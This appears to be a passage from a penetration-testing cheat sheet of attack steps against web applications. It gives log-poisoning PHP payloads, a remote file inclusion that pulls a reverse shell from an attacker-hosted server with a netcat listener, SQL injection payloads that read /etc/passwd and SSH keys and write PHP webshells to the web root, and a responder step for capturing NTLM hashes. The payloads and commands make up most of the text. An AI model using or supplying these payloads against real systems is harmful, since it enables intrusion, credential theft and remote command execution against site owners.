 Insert Malicious PHP code:

```
http://10.10.0.18/download.php?fid=<?php system(\$_GET['cmd']); ?>
http://10.10.0.18/download.php?fid=../../../../var/log/nginx/access.log&cmd=whoami
```

Attention to usage of &!!!

Check Log again and see if code is executed:

```
../../../../../var/log/nginx/access.log
```



## RFI

Try to get RFI, by serving a reverse shell and calling it:

```
python -n http.server 81
nc -lnvp 80
/site/index.php?page=http://192.168.45.172:81/new_php_rev.php
```

Also try this on fields that receive URLs like in the SSRF case!!!

If you upload a webshell the receives an argument try both:

```
new_php_rev.php?cmd=whoami
new_php_rev.php&cmd=whoami
```

## SQLi

1. Try to list database contents
2. Try to Read Files (/etc/passwd and SSH Private Keys) and PayloadAllTheThings for other LFI interesting files
3. Function LOAD_FILE (`' UNION SELECT LOAD_FILE('/etc/passwd')-- -)
4. Write Files
5. Execute commands
6. Write Files (Upload webshell to accessible folder path)
```
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php' 

' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/cmd.php'  -- -'

#Alternative Function
into dumpfile
```

Try to use responder to get NTML Hash in windows:
```
responder
\\attackerip\sharename\
```
